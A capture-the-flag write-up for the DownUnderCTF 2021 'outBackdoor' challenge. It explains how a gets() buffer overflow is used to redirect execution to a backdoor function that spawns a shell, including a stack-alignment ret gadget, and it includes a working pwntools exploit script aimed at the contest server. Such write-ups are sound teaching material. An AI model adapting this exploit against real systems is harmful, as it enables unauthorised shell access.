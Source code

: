 # outBackdoor

![](/2021/DownUnderCTF2021/outBackdoor/Images/1.png)

Checking the file and protection

![](/2021/DownUnderCTF2021/outBackdoor/Images/2.png)

Use IDA to reverse

![](/2021/DownUnderCTF2021/outBackdoor/Images/3.png)

This is a basic buffer overflow challenge, the gets function allow us to input more than 16 byte and overwrite the return address of main function. 

Look at the program, we see another function `outBackdoor`, which run `system(“/bin/sh”)` and give us the shell.

![](/2021/DownUnderCTF2021/outBackdoor/Images/4.png)

So because the ELF have no PIE, so we just need to overwrite return address of main function to address of outBackdoor

![](/2021/DownUnderCTF2021/outBackdoor/Images/5.png)

Address of `outBackdoor` is `0x4011d7`

There is another thing in this challenge that you need to pay attention to, that the server running this challange is ubuntu 64 bit, so when running a function, rsp needs to align with 16 bytes of padding. In other words, rsp & 0xf must be 0 .Just overwrite the main return address with address of outBackdoor causes rsp to not satisfy the above condition. With cause you segment fault. To fix it, simply push before it a ret_gadget. Do nothing but return to the next value on the stack, the address of `outBackdoor`, so because the stack pop 2 times, rsp & 0xf == 0. And the exploit will work on remote server.

The ret_gadget find with ROPgadget tool

![](/2021/DownUnderCTF2021/outBackdoor/Images/6.png)

File [solve.py](/2021/DownUnderCTF2021/outBackdoor/solve.py)

```python
from pwn import *
s = remote('pwn-2021.duc.tf', 31921)
outBackdoor = 0x4011d7
ret = 0x401016
payload = b'A' * 24 + p64(ret) + p64(outBackdoor)
s.sendline(payload)
s.interactive()
```

![](/2021/DownUnderCTF2021/outBackdoor/Images/7.png)

`flag: DUCTF{https://www.youtube.com/watch?v=XfR9iY5y94s}`



